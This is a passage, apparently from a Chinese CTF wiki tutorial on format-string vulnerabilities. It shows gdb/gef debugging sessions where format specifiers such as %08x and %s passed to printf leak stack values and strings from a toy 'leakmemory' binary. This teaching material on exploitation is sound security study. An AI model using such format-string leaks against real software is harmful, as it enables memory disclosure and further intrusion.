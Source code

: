 ```shell
0xffffcd14│+0x18: 0xffffce00  →  0x00000001
0xffffcd18│+0x1c: 0x000000e0
gef➤  c
Continuing.
f7e8b6bb[Inferior 1 (process 57442) exited normally]
```

可以看出，我们确实获得了printf的第4个参数所对应的值f7e8b6bb。

### 获取栈变量对应字符串

此外，我们还可以获得栈变量对应的字符串，这其实就是需要用到%s了。这里还是使用上面的程序，进行gdb调试，如下

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory 
%s

Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 没有那个文件或目录.
────────────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop    
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
────────────────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x18: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x1c: 0x000000c2
gef➤  c
Continuing.
00000001.22222222.ffffffff.%s

Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
28	in printf.c
──────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop    
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
──────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
```